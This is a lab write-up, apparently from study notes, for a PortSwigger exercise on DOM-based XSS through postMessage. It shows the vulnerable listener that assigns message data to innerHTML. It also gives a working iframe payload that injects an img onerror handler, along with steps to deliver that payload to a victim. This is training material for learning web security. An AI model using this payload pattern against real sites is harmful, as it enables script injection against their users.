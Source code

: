 # DOM XSS using web messages

[This lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages) demonstrates a simple web message vulnerability. 

## Reproduction and proof of concept

1. The home page contains an `addEventListener()` call that listens for a web message. 

```text
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

2. Create payload:

```text
<iframe src="https://LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

When the iframe loads, the `postMessage()` method sends a web message to the home page. The event listener, which is intended to serve `ads`, takes the content of the web message and inserts it into the `div` with the ID `ads`. However, in this case it inserts our `img` tag, which contains an invalid `src` attribute. This throws an error, which causes the `onerror` event handler to execute the payload. 

![DOM-based](/_static/images/dom-based1.png)

3. **Store** the exploit in the exploit server and **Deliver it to the victim**.

## Exploitability

An attacker needs to use the exploit server to post a message to the target site that causes the `print()` function to be called.
